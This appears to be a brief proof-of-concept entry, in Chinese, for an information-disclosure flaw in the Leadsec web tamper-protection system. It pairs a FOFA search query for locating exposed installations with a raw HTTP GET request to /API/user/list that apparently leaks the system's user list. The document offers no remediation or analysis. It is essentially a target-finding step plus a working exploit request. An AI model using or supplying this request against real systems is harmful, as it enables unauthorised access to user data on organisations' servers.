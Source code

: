 网御星云网页防篡改系统信息泄露

fofa

title="网页防篡改系统"

poc

GET /API/user/list HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.2159.60 Safari/537.36
Accept: */*
Connection: close